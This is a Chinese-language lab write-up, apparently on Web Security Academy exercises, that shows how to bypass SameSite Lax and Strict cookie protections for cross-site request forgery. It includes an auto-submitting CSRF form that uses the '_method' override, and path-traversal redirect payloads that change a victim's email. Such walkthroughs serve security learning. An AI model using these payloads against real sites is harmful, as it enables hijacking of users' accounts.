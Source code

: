 #### 实验：通过方法覆盖绕过 SameSite Lax

先修改邮箱，查看请求，发现没有设置SameSite，所以默认是**Lax**属性，那么只能通过GET请求修改才会有cookie

使用正常的POST请求的代码，发现发送后会要求重新登录，那就只能修改为GET请求，但是修改邮箱这里无法触发

![](https://pic.imgdb.cn/item/67219d56d29ded1a8cd8e7d7.png)

使用这个成功绕过
`_method`方法是用来修改请求方法的
所以一开始是GET请求，就会带上cookie，但是又被服务器视为为POST请求

```html
<html>
<body>
    <form action="https://0ad900560409f1be8099537a002800bc.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="112123432&#64;1" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

#### 实验：通过客户端重定向绕过 SameSite Strict

这里的限制被设置为Strict，按理来说只要不是同站点的请求就不会带上cookie

![](https://pic.imgdb.cn/item/67219fa8d29ded1a8cdb10e1.png)

题目提示是使用客户端重定向来绕过这个限制，在这个网页中，在博客下面评论后就会重定向回页面

在这个重定向js中，会获取url的postId的值，并组装到url中

```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

所以我们可以尝试修改payload来修改邮箱

```
1：
/post/comment/confirmation?postId=my-account/
因为前面有个post，所以找不到这个页面

2.
/post/comment/confirmation?postId=../my-account/
成功到达账户页面

3.
/post/comment/confirmation?postId=../my-account/change-email?email=1%401%26submit=1
这里的%26是&的url编码
```
